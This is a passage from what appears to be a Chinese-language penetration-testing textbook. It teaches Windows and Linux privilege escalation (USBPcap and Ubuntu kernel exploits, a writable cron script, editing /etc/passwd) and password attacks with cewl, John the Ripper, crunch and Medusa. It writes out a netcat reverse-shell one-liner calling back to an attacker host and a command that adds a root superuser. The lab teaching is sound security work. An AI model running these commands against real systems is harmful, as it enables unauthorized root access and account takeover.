例如，我们可以将可执行文件命名为 `Program.exe` 并放置在 `C:\` 中，或者命名为 `My.exe` 并放置在 `C:\Program Files` 中。然而，这需要一些不太可能的写入权限，因为标准用户默认没有这些目录的写入访问权限。

更有可能的是，软件的主目录（在我们例子中是 `C:\Program Files\My Program`）或子目录（`C:\Program Files\My Program\My Service`）配置错误，允许我们植入一个恶意的 `My.exe` 二进制文件。

尽管此漏洞需要特定的要求组合，但它是易于利用的，是值得考虑的权限提升攻击向量。

#### 18.2.6 Windows 内核漏洞：USBPcap 案例研究
在前面的 `helper.exe` 示例中，我们利用了一个基于应用程序的漏洞来绕过 UAC。在本节中，我们将演示一个依赖于内核驱动漏洞的权限提升。同样，本模块的这一部分无法在您的专用客户端上复现，但您可以使用此技巧针对实验室环境内的各种主机。

在尝试利用系统级软件（如驱动程序或内核本身）时，我们必须仔细关注若干因素，包括目标的操作系统的版本和架构。未能准确识别这些因素可能在运行漏洞利用程序时触发蓝屏死机（BSOD）。这可能会对客户端的生产系统产生不利影响，并拒绝我们访问潜在有价值的目标。

考虑到我们必须采取的谨慎程度，在以下示例中，我们首先确定目标操作系统的版本和架构。

```
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

OS Name:			Microsoft Windows 7 Professional

OS Version:			6.1.7601 Service Pack 1 Build 7601

System Type:			x86-based PC
```
*列表 575 – 检查目标的版本和架构*

命令输出显示我们的目标正在 x86 处理器上运行 Windows 7 SP1。

此时，我们可以尝试寻找适用于 Windows 7 SP1 x86 的原生内核漏洞并利用它来提升权限。然而，第三方驱动漏洞更为常见。因此，在转向更困难的攻击之前，我们应始终先尝试调查此攻击面。

为此，我们首先枚举系统中已安装的驱动程序：

```
C:\Users\student\Desktop>driverquery /v
```


*列表 576 - 列出所有已安装的驱动程序*

输出主要包含典型的 Microsoft 安装的驱动程序和非常有限的第三方驱动程序，如 `USBPcap`。重要的是要注意，即使该驱动程序标记为已停止，我们仍然可能与之交互，因为它仍加载在内核内存空间中。

由于 Microsoft 安装的驱动程序具有相当严格的补丁周期，第三方驱动程序通常提供更诱人的攻击面。例如，让我们在漏洞数据库中搜索 `USBPcap`：

```
kali@kali:~# searchsploit USBPcap
```

*列表 577 - 搜索 “USBPcap” 的 searchsploit 输出*

输出报告称 `USBPcap` 有一个可用的漏洞利用。如列表 578 所示，该特定漏洞针对我们的操作系统版本、补丁级别和架构。然而，它依赖于特定版本的驱动程序，即 `USBPcap` 版本 `1.1.0.0`，该版本随 `Wireshark 2.2.5` 一起安装。

| 字段 | 值 |
| :--- | :--- |
| 漏洞标题 | USBPcap 空指针引用权限提升 |
| 日期 | 2017年3月7日 |
| 发现者 | Parvez Anwar (@parvezghh) |
| 供应商主页 | http://desowin.org/usbpcap/ |
| 测试版本 | 1.1.0.0 (与 Wireshark 2.2.5 捆绑的 Windows USB 数据包捕获工具) |
| 驱动版本 | 1.1.0.0 - USBPcap.sys |
| 测试操作系统 | 32位 Windows 7 SP1 |
| CVE ID | CVE-2017-6178 |
| 供应商修复 URL | 尚未 |
| 修复版本 | 0day |
*列表 578*

## 已修复的驱动版本 – 0day 漏洞

让我们检查一下目标系统，看看是否安装了那个特定版本的驱动。

首先，我们将列出 `Program Files` 目录的内容，以查找 `USBPcap` 目录：

```text
C:\Users\n00b> cd "C:\Program Files"

C:\Program Files> dir

...

08/13/2015  04:04 PM    <DIR>          MSBuild

07/14/2009  06:52 AM    <DIR>          Reference Assemblies

01/24/2018  02:30 AM    <DIR>          USBPcap

12/22/2017  04:11 PM    <DIR>          VMware

04/12/2011  04:16 AM    <DIR>          Windows Defender

...
```

正如我们看到的，`C:\Program Files` 中确实有一个 `USBPcap` 目录。但请记住，驱动目录通常位于 `C:\Windows\System32\DRIVERS` 下。让我们检查 `USBPcap.inf` [537] 的内容，以了解更多关于驱动版本的信息：

```text
C:\Program Files\USBPcap> type USBPcap.inf

[Version]

Signature    = "$WINDOWS_NT$"

Class        = USB

ClassGuid    = {36FC9E60-C465-11CF-8056-444553540000}

DriverPackageType = ClassFilter

Provider     = %PROVIDER%

CatalogFile.NTx86  = usbpccpx86.cat

CatalogFile.NTamd64 = usbpccpamd64.cat

DriverVer=18/02/2015,1.1.0.8

[DestinationDirs]

DefaultDestDir = 12

...
```

根据版本信息，我们的驱动应该存在漏洞。在尝试利用该漏洞之前，我们首先需要编译利用代码，因为它是用 C 语言编写的。

### 18.2.6.1 在 Windows 上编译 C/C++ 代码

针对内核级漏洞的大多数利用代码（包括我们选择的那个）都是用低级编程语言（如 C 或 C++）编写的，因此需要编译。理想情况下，我们应在代码 intended 运行的平台版本上进行编译。在这种情况下，我们只需创建一个与目标相匹配的虚拟机，并在那里编译代码。但是，我们也可以在完全不同于目标操作系统的操作系统上进行交叉编译。例如，我们可以在我们的 Kali 系统上编译 Windows 二进制文件。


然而，为了本模块的目的，我们将使用 Min gw-w64，[538] 它提供了 Windows 下的 GCC 编译器。

由于我们的 Windows 客户端预装了 Min gw-w64，我们可以运行 `mingw-w64.bat` 脚本来为 `gcc` 可执行文件设置 PATH 环境变量。脚本完成后，我们可以执行 `gcc.exe` 以确认一切运行正常：

```text
C:\Program Files \ mingw-w64 \ i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat

C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1>echo off

Microsoft Windows [Version 10.0.10240]

(c) 2015 Microsoft Corporation. All rights reserved.

C:\> gcc

gcc: fatal error: no input files

compilation terminated.

C:\> gcc --help

Usage: gcc [options] file...

Options:

--pass-exit-codes          Exit with highest error code from a phase.

--help                     Display this information.

--target-help              Display target specific command line options.

--help={common|optimizers|params|target|warnings[=^

{joined|separate|undocumented}]}

{common|optimizers|params|target|warnings[=^

Display specific types of command line options.

(Use '-v --help' to display command line options of sub-processes).

--version                  Display compiler version information.

...
```
*列表 581 - 运行 min gw-w64.bat 后 gcc 正常工作*

好的，编译器似乎工作正常。现在让我们将利用代码传输到我们的 Windows 客户端并尝试编译它。由于作者没有提及任何特定的编译选项，我们将尝试运行 `gcc`，除了使用 `-o` 指定输出文件名外，不添加其他参数：

```text
C:\Windows\system32\cmd.exe

C:\Users\admin\Desktop>gcc 41542.c -o exploit.exe

41542.c: In function 'main':

41542.c:175:80: warning: passing argument 4 of 'NtAllocateVirtualMemory' from incompatible pointer type [WinIncompatible-pointer-type]

 allocstatus = NRAllocateVirtualMemory(INVALID_HANDLE_VALUE, &Base_addr, 0, &Size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

41542.c:175:80: note: expected 'PULONG (aka long unsigned int *)' but argument is of type 'int **'

41542.c:212:15: warning: implicit declaration of function 'getch'; did you mean 'getc'? [-Wimplicit-function-declaration]
```


`getch();`

`getch`

`C:\Users\admin\Desktop>dir`

 Volume in drive C has no label.

 Volume Serial Number is 9E6A-47F8

 Directory of C:\Users\admin\Desktop

 09/16/2019 06:34 AM <DIR> .

 09/16/2019 06:34 AM <DIR> ..

 09/16/2019 06:20 AM 8,546 41542.c

 09/16/2019 06:34 AM 52,980 exploit.exe

 2 File(s) 61,534 bytes

 2 Dir(s) 2,750,805,376 bytes free

`C:\Users\admin\Desktop>`

```
*图 291：使用 gcc 编译利用程序*
```

尽管有两条警告信息 [539]，但利用程序成功编译，`gcc` 创建了 `exploit.exe` 可执行文件。如果该过程产生了错误信息，编译就会中止，我们将不得不尝试修复利用代码并重新编译。

现在我们已经编译了利用程序，可以将其传输到目标机器并尝试运行它。为了确定我们的权限提升是否成功，我们可以分别在运行利用程序之前和之后使用 `whoami` 命令：


*图 292：通过权限提升利用程序在 Windows 上提升权限*

太棒了！我们已成功将权限从 `admin-pc\n00b` 提升到 `nt authority\system`，[540] 这是 Windows 中权限级别最高的账户。

### 18.3 Linux 权限提升示例

在本节中，我们将把注意力转向基于 Linux 的目标。我们将讨论 Linux 权限，并演示几种常见的基于 Linux 的权限提升技术。

#### 18.3.1 理解 Linux 权限

在讨论权限提升技术之前，让我们花一点时间简要讨论一下 Linux 权限、访问控制和用户。

Linux 和其他 UNIX 衍生系统的一个显著特征是，大多数资源（包括文件、目录、设备，甚至网络通信）都在文件系统中表示。[541]

通俗地说，“一切都是文件”。每个文件（以及由此引申出的 Linux 系统的每个元素）都遵循基于三种基本能力：读、写和执行的用户和组权限 [542]。

#### 18.3.2 不安全的文件权限：Cron 案例研究

随着我们将注意力转向权限提升技术，我们将首先利用不安全的文件权限。与我们的 Windows 示例一样，我们假设已经以非特权用户的身份获取了 Linux 目标机器的访问权限。

为了利用不安全的文件权限，我们必须找到一个不仅允许我们写入访问，而且以较高权限级别运行的可执行文件。在 Linux 系统上，`cron` [543] 基于时间的任务调度器是一个主要目标，因为系统级的计划任务是以 `root` 用户权限执行的，而系统管理员经常创建具有不安全权限的 `cron` 任务脚本。

为了本示例的目的，我们将 SSH 连接到我们专用的 Debian 客户端。在前面的章节中，我们展示了如何在文件系统中查找目标系统上已安装的 `cron` 任务。我们还可以检查 `cron` 日志文件（`*var/log/cron.log*`）以查看正在运行的 `cron` 任务：

```text
student@debian:~$ grep "CRON" /var/log/cron.log

Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)

Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)

....

Jan27 17:45:01 victim CRON[2615]: (root) CMD (cd /var/scripts/ &&& . /user_backups.sh)

Jan27 17:50:01 victim CRON[2631]: (root) CMD (cd /var/scripts/ &&& . /user_backups.sh)

Jan27 17:55:01 victim CRON[2656]: (root) CMD (cd /var/scripts/ &&& . /user_backups.sh)

Jan27 18:00:01 victim CRON[2671]: (root) CMD (cd /var/scripts/ &&& . /user_backups.sh)
```
*列表 582 - 检查 cron 日志文件*

看起来位于 `/var/scripts/` 下的一个名为 `user_backups.sh` 的脚本是以 `root` 用户的身份执行的。根据时间戳判断，该任务似乎每五分钟运行一次。

由于我们知道脚本的位置，我们可以检查其内容和权限。

```bash
student@debian:~$ cat /var/scripts/user_backups.sh

#!/bin/bash

cp -rf /home/student/ /var/backups/student/

student@debian:~$ ls -lah /var/scripts/user_backups.sh

-rwxrwxrwx- 1 root root 52 Jan 27 17:02 /var/scripts/user_backups.sh
```
*列表 583 - 显示 user_backups.sh 脚本的内容和权限*

脚本本身相当直接：它只是将 `student` 用户的 `home` 目录复制到 `backups` 子目录中。脚本的权限 [544] 显示每个本地用户都可以写入该文件。

[537] (Microsoft, 2017). https://docs.microsoft.com/en-us/windows-hardware/drivers/install/overview-of-inf-files
[538] (Mingw-w64, 2019), https://mingw-w64.org/doku.php
[539] (GCC, 2019), https://gcc.gnu.org/onlinedocs/gcc/Warnings-and-Errors.html
[541] (Ubuntu, 2013). https://help.ubuntu.com/community/FilePermissions
[542] (Ubuntu, 2013). https://help.ubuntu.com/community/FilePermissions
[543] (Wikipedia, 2019). https://en.wikipedia.org/wiki/Cron
[544] (Arch Linux, 2019). https://wiki.archlinux.org/index.php/File_permissions_and_attributes

由于非特权用户可以修改备份脚本的内容，因此我们可以编辑该脚本并添加一个反向 Shell 单行命令。[^545] 如果我们的计划成功，在最多五分钟的等待期后，我们的攻击机器应该会收到一个 `root` 级别的反向 Shell。

```bash
student@debian:/var/scripts$ echo >> user_backup.sh

student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

student@debian:/var/scripts$ cat user_backups.sh

#!/bin/bash

cp -rf /home/student/ /var/backups/student/

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

*列表 584 - 在 user_backups.sh 中插入反向 Shell 单行命令*

我们现在只需要在 Kali Linux 机器上设置一个监听器，并等待 `cron` 任务执行即可：

```bash
kali@kali:~$ nc -lnvp 1234

listening on [any] 1234 ...

connect to [10.11.0.4] from (UNKNOWN) [10.11.0.128] 43172

/bin/sh: 0: can't access tty; job control turned off

# whoami

root

#
```


*列表 585 - 从目标获取 root Shell*

如前一个列表所示，`cron`任务确实执行了，反向 Shell 单行命令也执行了。我们已成功提升权限，并获得了目标上的 root Shell。

尽管这是一个简单的示例，但由于管理员往往更关注处理 `cron`的怪异语法，而忽视脚本文件权限的安全设置，我们在实际工作中已经遇到了几种类似的情况。

### 18.3.2.1 练习

- 以非特权用户身份登录到你的 Debian 客户端，并尝试使用上述技术将权限提升至 root。

#### 18.3.3 不安全的文件权限：/etc/passwd 案例研究

除非使用集中式凭据系统（如 Active Directory 或 LDAP），否则 Linux 密码通常存储在 `/etc/shadow` 中，普通用户无法读取。然而，从历史上看，密码哈希值连同其他账户信息一起存储在所有人都可读的文件 `/etc/passwd` 中。为了向后兼容，如果 `/etc/passwd` 用户记录的第二列存在密码哈希值，则该哈希值被视为有效用于身份验证，并且在可用时优先于 `/etc/shadow` 中的相应条目。这意味着，如果我们能够写入 `/etc/passwd` 文件，我们就可以有效地为任何账户设置任意密码。

让我们来演示一下。在前面的章节中，我们展示了我们的 Debian 客户端可能由于 `/etc/passwd` 权限设置不正确而易受权限提升攻击。为了提升权限，我们将向 `/etc/passwd` 文件添加另一个超级用户（root2）及其对应的密码哈希值。我们首先借助 `openssl` 和 `passwd` 参数生成密码哈希值。默认情况下，如果没有指定其他选项，`openssl` 将使用 `crypt` 算法生成哈希值[^546]，这是 Linux 身份验证支持的哈希机制。一旦我们生成了哈希值，我们将使用适当的格式向 `/etc/passwd` 添加一行：

```bash
student@debian:~$ openssl passwd evil
AK24fc5x2Il3I
student@debian:~$ echo "root2:AK24fc5x2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
student@debian:~$ su root2
Password: evil
root@debian:/home/student# id
uid=0(root) gid=0(root) groups=0(root)
```

*列表 586 - 通过编辑 /etc/passwd 提升权限*

如列表 586 所示，我们 `/etc/passwd` 记录中的“root2”用户和密码哈希值后面跟着用户 ID (`UID`) 零和组 ID (`GID`) 零。这些零值指定我们创建的账户是 Linux 上的超级用户账户。最后，为了验证我们的修改是否有效，我们使用 `su` 命令将标准用户切换到新创建的 root2 账户，并执行 `id` 命令，表明我们确实拥有 root 权限。

### 18.3.3.1 练习

- 使用学生凭据登录到你的 Debian 客户端，并尝试通过向 `/etc/passwd` 文件添加一个超级用户账户来提升权限。

#### 18.3.4 内核漏洞：CVE-2017-1000112 案例研究

内核漏洞利用是提升权限的绝佳方式，但成功可能不仅取决于目标的内核版本匹配，还取决于操作系统变种，包括 Debian、Redhat、Gentoo 等。

与我们的 Windows 示例类似，本模块的这一部分在你的专用客户端上可能无法复现，但你可以在实验室环境中的各种主机上使用这种技术。

为了演示这种攻击向量，我们将首先通过检查 `/etc/issue` 文件来收集关于目标的信息。如前所述，这是 Linux 机器上包含在登录提示之前打印的消息或系统标识的系统文本文件。


```bash
n00b@victim:~$ cat /etc/issue
Ubuntu 16.04.3 LTS \n \l
```

*列表 587 - 收集目标系统的一般信息*

接下来，我们将使用标准系统命令检查内核版本和系统架构：

```bash
n00b@victim:~$ uname -r
4.8.0-58-generic
n00b@victim:~$ arch
x86_64
```

*列表 588 - 从我们的 Linux 目标收集内核和架构信息*

我们的目标系统似乎运行在 `x86_64` 架构上的 Ubuntu 16.04.3 LTS（内核 4.8.0-58-generic）。有了这些信息，我们可以在本地 Kali 系统上使用 `searchsploit` 查找与目标版本匹配的内核漏洞利用。

```bash
kali@kali:~$ searchsploit linux kernel ubuntu 16.04
```

| 漏洞利用标题 | 路径 |
| :--- | :--- |
| Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04 / ...) | /usr/share/exploitdb/exploits/linux/x86-64/local/... |

*列表 589 - 使用 searchsploit 查找我们目标的权限提升漏洞*

最后一个漏洞利用（`exploits/linux/local/43418.c`）似乎直接对应于我们目标正在运行的内核版本。我们将尝试通过在目标上运行此漏洞利用来提升权限。

### 18.3.4.1 在 Linux 上编译 C/C++ 代码

我们将在 Linux 上使用 `gcc`[^547] 来编译我们的漏洞利用。请记住，在编译代码时，我们必须匹配目标的架构。在目标机器没有编译器，我们被迫在攻击机器或模拟目标操作系统和架构的沙箱环境中编译漏洞利用的情况下，这一点尤为重要。

在这个例子中，幸运的是，目标机器有一个可用的编译器，但在实际工作中这种情况很少见。

让我们将漏洞利用文件复制到目标并编译它，仅传递源代码文件和 `-o` 以指定输出文件名（`exploit`）：

```bash
n00b@victim:~$ gcc 43418.c -o exploit
n00b@victim:~$ ls -lah exploit
```

[^547] (GCC, 2019), https://gcc.gnu.org

```text
total 36K
-rwxr-xr-x 1 kali kali 28K Jan 27 04:04 exploit
```


### 列表 590 – 在 Linux 上使用 gcc 从本地 Exploit Database 归档编译漏洞利用

在目标机器上编译好漏洞利用后，我们可以运行它并使用 `whoami` 检查我们的权限级别：


*图 293：通过权限提升漏洞在 Linux 上提升权限*

图 293 显示，我们的权限已成功从 n00b（标准用户）提升到 root，这是 Linux 操作系统中权限最高的账户。

## 18.4 总结

在本模块中，我们涵盖了 Windows 和 Linux 操作系统以及不同架构上的权限提升概念。我们介绍了揭示此类攻击所需信息的手动和自动枚举技术。此外，我们演示了这两种操作系统的编译过程，并演示了若干权限

[^545] (Pentest Money, 2019), http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[^546] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Crypt(C)

升级攻击，以及各种根本不需要软件漏洞即可实施的权限提升攻击。

## 19. 密码攻击

密码是用户账户和服务认证的最基本形式，而密码攻击的目标则是发现并利用有效凭证，以获取对用户账户或服务的访问权限。

从广义上讲，密码攻击有几种常见方法。我们可以通过字典攻击使用各种词表来尝试猜测密码，或者对密码中所有可能的字符进行暴力破解。

*   总体而言，字典攻击优先考虑速度，但提供的密码覆盖率较低；而暴力破解则优先考虑密码覆盖率，但以牺牲速度为代价。在渗透测试中，根据我们的优先事项和时间要求，这两种技术都可以有效地使用。

在某些情况下，一旦我们（通常是特权）获取了对目标的访问权限，并且能够提取密码哈希值，我们就可以利用*密码破解*攻击来获取明文凭据，或者利用*传递哈希（Pass-the-Hash）*攻击，仅使用用户名和哈希值即可向基于 Windows 的目标进行身份验证。

在本模块中，我们将详细讨论这些概念和技术，并演示它们如何在各种攻击场景中发挥作用。

### 19.1 词表

词表（有时称为*字典文件*）是包含单词的文本文件，用作设计用于测试密码的程序的输入。在考虑字典攻击时，精度通常比覆盖率更重要，这意味着创建一个包含相关密码的精简词表比创建一个巨大的通用词表更为重要。正因为如此，许多词表都基于常见的主题，例如流行文化引用、特定行业或地理区域，并被提炼为包含常用的密码。Kali Linux 在 `/usr/share/wordlists/` 目录中包含许多这样的字典文件，还有更多在线托管。

在进行密码攻击时，直接使用这些预构建列表可能很有诱惑力。然而，如果我们花些时间仔细构建自己的自定义列表，我们的方法可以更有效。在本节中，我们将研究创建有效词表的工具和方法。

#### 19.1.1 标准词表

我们可以通过添加特定于目标组织的单词和短语来提高词表的有效性。

例如，考虑 MegaCorp One 是一家涉及纳米技术的公司。该公司的网站 `www.megacorpone.com` 列出了该公司出售的各种产品，包括 Nanobot。在假设的评估中，我们识别出了低权限密码 `Nanobot93`。假设这可能是一家公司常见的密码格式，我们希望创建一个自定义词表，以识别其他具有类似模式的密码，也许使用其他产品名称。

我们可以浏览网站并手动将常用术语和产品名称添加到自定义词表中，或者我们可以使用 `cewl` 等工具来为我们完成大部分工作。如 `--help` 输出所示，可以通过指定几个选项来配置此工具，但我们只关注几个关键参数。

例如，以下命令抓取 `www.megacorpone.com` 网站，定位至少包含六个字符（`-m 6`）的单词，并将词表写入（`-w`）自定义文件（*megacorp-cewl.txt*）：

```bash
kali@kali:~$ cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt

kali@kali:~$ wc -l megacorp-cewl.txt

312

kali@kali:~$ grep Nano megacorp-cewl.txt

Nanotechnology

Nanomite

Nanoprobe

Nanoprocessors

NanoTimes

Nanobot
```

*清单 591 - 使用 cewl 创建字典文件*

上述清单显示 `cewl` 定位了几个产品的名称，包括 *Nanobot*。我们应该考虑到其他产品名称也可能用于密码中。

然而，这些单词本身作为密码极其薄弱，并且不符合典型的密码强度规则。这些类型的规则通常要求使用大写字母和小写字母、数字，以及特殊字符。根据我们发现的密码（`Nanobot93`），我们可以推测 MegaCorp One 的密码强度要求至少需要在密码中使用两个数字，并且可能进一步规定（尽管可能性很低）数字必须位于密码末尾。

为了简化演示，我们假设 MegaCorp One 的政策规定密码必须以两位数字结尾。

为了创建符合此要求的密码，我们可以编写一个 Bash 脚本。但我们改用了一种功能更强大的工具，称为 John the Ripper (`JTR`)，它是一种快速密码破解器，具有多项功能，包括生成自定义词表和应用规则排列的能力。

基于我们对密码政策的假设，我们将向 JTR 配置文件（`/etc/jjohn/john.conf`）添加一条规则，该规则将变换我们的词表，在每个密码后附加两位数字。为此，我们必须找到定义词表变换规则的 `[List.Rules:Wordlist]` 段，并添加一条新规则。在本例中，我们将在词表中的每个单词后添加从 0 到 99 的两位数字序列。

我们将以 `$` 字符开始此规则，这告诉 John 向词表中的原始单词追加字符。接下来，我们指定要追加的字符类型；在这种情况下，我们要 0 到 9 之间的任何数字（`[0-9]`）。最后，为了追加双位数，我们只需重复 `[0-9]` 序列。最终规则如清单 592 所示。

```bash
kali@kali:~$ sudo nano /etc/jjohn/john.conf

 ...

# Wordlist mode rules

[List.Rules:Wordlist]

# Try words as they are

 :

# Lowercase every pure alphanumeric word

-c >3 !?X l Q

# Capitalize every pure alphanumeric word

-c (?a >2 !?X c Q

# Lowercase and pluralize pure alphabetic words

 ...

# Try the second half of split passwords

-s x_

-s-c x_ M l Q

# Add two numbers to the end of each password
$[0-9]$[0-9]

...
```

*清单 592 - 在 John the Ripper 配置文件中创建变换规则*

John the Ripper 的规则语法非常广泛且强大，但这超出了本模块的范围。如需更多信息，请花时间查阅规则文档。

现在规则已添加到配置文件中，我们可以变换目前包含 312 个条目的词表。


为此，我们将调用 `john`，指定字典文件（`--wordlist=megacorp-cewl.txt`），激活配置文件中的规则（`--rules`），将结果输出到标准输出（`--stdout`），并将该输出重定向到一个名为 `mutated.txt` 的文件。

```bash
kali@kali:~$ john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt

Press 'q' or Ctrl-C to abort, almost any other key for status

46446p  0:00:00:00 100.00% (2018-03-01 15:41) 663514p/s ch0c0l4te99

kali@kali:~$ grep Nanobot mutated.txt

...

Nanobot90

Nanobot91

Nanobot92

Nanobot93

Nanobot94

Nanobot95

Nanobot96
...
```


### 清单 593 - 使用 John the Ripper 变换密码

由于对密码进行了多次变换，生成的文件包含超过 46,000 个密码条目。其中一个密码是 `"Nanobot93"`，与我们在假设评估中之前发现的密码相匹配。根据对 MegaCorp One 密码政策的假设，此词表可以在字典攻击中产生结果。

虽然这个演示过于简化，但它是一个很好的例子，说明了密码分析如何有助于整体密码攻击的成功。

#### 19.1.1.1 练习

*（此练习不需要提交报告）*

1. 使用 `cewl` 从您的公司、学校或最喜欢的网站生成自定义词表并检查结果。您的任何密码是否出现在结果中？

## 19.2 暴力破解词表

与字典攻击相反，*暴力破解密码攻击*会计算并测试构成密码的每一个可能的字符组合，直到找到正确的那个。虽然这听起来像是一种保证结果的简单方法，但它极其耗时。根据密码的长度和复杂度以及测试系统的计算能力，暴力破解一个强密码可能需要很长时间，甚至数年。

我们还可以结合这两个概念，创建*暴力破解词表*，即包含所有匹配特定模式的密码的字典文件。

例如，考虑一个揭示非常具体的密码强制策略的场景，如清单 594 所示：

```bash
kali@kali:~$ cat dumped.pass.txt

david: Abc5#123

mike: Jud()666

Judy: H0l&278
```

### 列表 594 · 密码转储示例

观察这些密码，我们注意到密码结构中存在以下模式：

```
[大写字母] [2 个小写字母] [2 个特殊字符] [3 个数字]
```

### 列表 595 · 密码结构

基于这一知识，创建一个包含所有符合此模式的可能的密码的词表将非常有帮助。Kali Linux 自带的 `Crunch`（557）是一个强大的词表生成器，可以处理这项任务。

首先，我们必须描述需要 `crunch` 复制的模式，为此我们将使用占位符来代表特定类型的字符：

| **占位符** | **字符映射** |
| :-------------: | :-----------------------: |
|        @        | 小写字母字符 |
|        ,        | 大写字母字符 |
|        %        | 数字字符         |
|        ^        | 包括空格在内的特殊字符 |

### 列表 596 · 字符映射格式

为了生成符合我们要求的词表，我们将指定单词的最小和最大长度为八个字符（`8 8`），并使用 `-t ,@%^%%` 描述我们的规则模式。

```bash
kali@kali:~$ crunch 8 8 -t ,@%^%%
Crunch will now generate the following amount of data: 17226237600 bytes
164282 MB
160 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 19140264000
Aaa!!000
Aaa!!001
Aaa!!002
Aaa!!003
Aaa!!004
...
```

### 列表 597 · 使用 crunch 生成密码列表

命令按预期工作，但如前所述，输出将占用 160 GB 的庞大磁盘空间！请记住，暴力破解技术优先考虑密码覆盖率，而牺牲速度，在本例中还包括磁盘空间。

我们还可以使用 `crunch` 定义字符集。例如，我们可以创建一个暴力破解词表，考虑到长度为四到六个字符（`4 6`）的密码，仅包含字符 `0-9` 和 `A-F`（`0123456789ABCDEF`），并且我们将输出写入文件（`-o crunch.txt`）。

```bash
kali@kali:~$ crunch 4 6 0123456789ABCDEF -o crunch.txt
Crunch will now generate the following amount of data: 124059648 bytes
118 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 17891328
crunch: 100% completed generating output
kali@kali:~$ head crunch.txt
0000
0001
0002
0003
0004
0005
0006
0007
0008
```

### 列表 598 - 使用 crunch 以特定字符集生成密码

请注意，文件输出大小比之前的示例小得多，主要原因是密码长度较短以及字符集有限。然而，词表文件令人印象深刻，包含超过 1700 万个密码：

```bash
kali@kali:~$ wc -l crunch.txt
17891328 crunch.txt
```

### 列表 599 - 统计生成的密码数量

此外，我们可以根据预定义的字符集（如 `/usr/share/crunch/charset.lst` 中定义的那些）生成密码。例如，我们可以指定字符集文件的路径（`-f /usr/share/crunch/charset.lst`）并选择混合字母集 `mixalpha`，它包含所有小写和大写字母：

```bash
kali@kali:~$ crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
Crunch will now generate the following amount of data: 140712849920 bytes
134193 MB
131 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 20158125312
```


### 列表 600 - 生成小写和大写字母密码列表

尽管此特定命令生成了庞大的 131 GB 词表文件，但它提供了相当令人印象深刻的密码覆盖率。

花时间熟悉 `JTR` 和 `crunch`，并思考如何最有效地使用每一个。正如我们将在下一节中发现的那样，我们需要避免依赖庞大且通用的词表的诱惑，因为它们可能对我们的客户的生产环境产生不利影响。

### 19.2.1.1 练习

（此练习不需要报告）

- 在你的 Kali 系统上添加一个用户，并为该账户指定一个包含小写和大写字母、数字以及特殊字符的复杂密码。使用 `crunch` 规则模式和预定义的字符集来生成包含该用户密码的词表。

### 19.3 常见网络服务攻击方法

既然我们了解了如何为各种情况创建有效的词表，我们可以讨论如何使用它们对常见网络服务进行密码攻击。

> *请记住，针对网络服务的密码攻击是嘈杂的，在某些情况下甚至是危险的。多次登录失败通常会在目标系统上生成日志和警告，并且可能在预定义次数的登录失败后锁定账户。这在渗透测试期间可能是灾难性的，阻止用户访问生产系统，直到管理员重新启用该账户。在盲目运行基于网络的暴力破解攻击之前，请牢记这一点。*

在权衡风险并考虑目标网络的福祉之后，我们可以采取几个步骤来提高密码测试的效率。

根据协议和密码破解工具的不同，我们可以增加登录线程数以提高攻击速度。然而，在某些情况下（如 `RDP` 和 `SMB`），由于协议限制，可能无法增加线程数，而且我们的优化尝试反而可能减慢进程。

除此之外，值得注意的是，诸如 `RDP` 等协议的认证协商过程比 `HTTP` 等协议耗时更长。然而，虽然攻击 `RDP` 协议可能比攻击 `HTTP` 花费更多时间，但对 `RDP` 的成功攻击通常会带来更大的回报。网络服务密码攻击的隐藏艺术在于在发起攻击之前仔细且智能地选择合适的目标、用户列表和密码文件。

要成功攻击网络服务（如 `HTTP`、`SSH`、`VNC`、`FTP`、`SNMP` 和 `POP3`）上的密码，我们不仅必须匹配目标用户名和密码，还必须遵守认证过程中涉及的协议。

幸运的是，像 `THC-Hydra`、`Medusa`、`Crowbar` 和 `spray` 等流行工具可以为我们处理这些认证请求。

在本节中，我们将检查这些工具中的每一个，并权衡它们有效的协议和服务处理能力。以下段落中提到的工具大多具有相似的功能和速度。使用“正确”的工具通常取决于首选的语法和输出格式。这只能通过在一个测试环境中实验每个工具，并了解每个工具的优缺点和怪癖来确定。

### 19.3.1 使用 Medusa 进行 HTTP htaccess 攻击

根据其作者的说法，`Medusa` 旨在是一个“快速、大规模并行、模块化的登录暴力破解器”。

我们将使用 `Medusa` 尝试访问受 `htaccess` 保护的 Web 目录。

首先，我们将设置目标，即安装在我们的 Windows 客户端上的 Apache Web 服务器，我们将通过 XAMPP 控制面板启动它。我们将尝试访问该服务器上受 `htaccess` 保护的文件夹 `/admin`。本例中我们选择的词表将是 `/usr/share/wordlists/rockyou.txt.gz`，我们必须首先使用 `gunzip` 对其进行解压：

```
kali@kali:~$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz

...
```

### 列表 601 - 解压 rockyou 词表

接下来，我们将启动 `medusa` 并发起针对目标主机 `-h 10.11.0.22` 上受 `htaccess` 保护的 URL `(-m DIR;/admin)` 的攻击。我们将攻击 `admin` 用户 `(-u admin)`，使用来自我们的 `rockyou` 词表文件 `(-P /usr/share/wordlists/rockyou.txt)` 的密码，当然，我们将使用 `HTTP` 认证方案 `(-M)`：

```
kali@kali:~$ medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http \
-m DIR;/admin

